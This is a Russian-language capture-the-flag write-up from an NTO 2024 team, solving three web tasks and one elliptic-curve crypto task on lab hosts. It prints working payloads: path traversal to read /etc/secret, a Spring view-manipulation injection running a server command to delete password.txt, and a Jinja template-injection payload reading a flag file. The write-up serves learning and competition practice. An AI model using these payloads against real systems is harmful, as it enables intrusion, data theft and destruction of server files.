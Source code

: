 # NTO-2024-xls-team

</br>

# Решение I части:

# Task solves

## web1

Сначала открываем инструменты разработчика, смотрим и находим строку:

`<a href="/download?file_type=file1.txt">20</a>`

Переходим по ссылке `http://192.168.12.10:5001/download?file_type=file1.txt`
и получаем *hint*:

`Hint_1 maybe in etc/secret ???`

Понимаем, что скорее всего нужно применить `Path Fuzzing`.
Ищем, находим подобные уязвимости и делаем запрос:

`http://192.168.12.10:5001/download?file_type=/../../etc/secret`

Получаем `flag` из файла secret: nto{P6t9_T77v6RsA1}

## web 2

Смотрим иходный код, понимаем, что всё зависит от файла `password.txt` и его нужно удалить/изменить, чтобы `/login` нас впустил. После нескольких часов гуглерства находим статью: </br> `https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability`. </br> Используем уязвимость: </br>
`http://192.168.12.13:8090//doc/__$%7BT(java.lang.Runtime).getRuntime().exec(%22rm%20password.txt%22)%7D__::.x.`. </br>
После вводим: `http://192.168.12.13:8090/login?password=password`, радуемся, что получили `flag`.

`flag`: nto{abobovichasdfas} 

## web3

Пробуем разные способы обойти прокси, получаем: `http://192.168.12.11:8001//flag?name=a`. </br> Пробуем разные SSTI пейлоады, узнаем, что это jinja, собираем пейлоад: </br> `http://192.168.12.11:8001//flag?name={{request.__init__.__globals__.__builtins__[%22open%22](%22./flag.txt%22).read()}}`

`flag`: nto{Ht1P_sM088Lin6_88Ti} 


## crypto2

По исходному коду понимаем, что нужно восстановить тайное число FLAG (закодированный текст) по известным эллиптической кривой E в кольце целых чисел по модулю p (простое число), генератору G и результату P = G * FLAG. Иными словами, задача на дискретное логарифмирование. В общем случае задача слишком сложна, но в задаче все параметры геренируются случайно, а значит можно подобрать такую кривую, порядок которой будет иметь достаточно небольшие делители и, переведя задачу в подгруппу с таким порядком, получить (перебором) FLAG по некоему модулю. Получив достаточно таких результатов по разным модулям, восстановим FLAG через китайскую теорему об остатках.
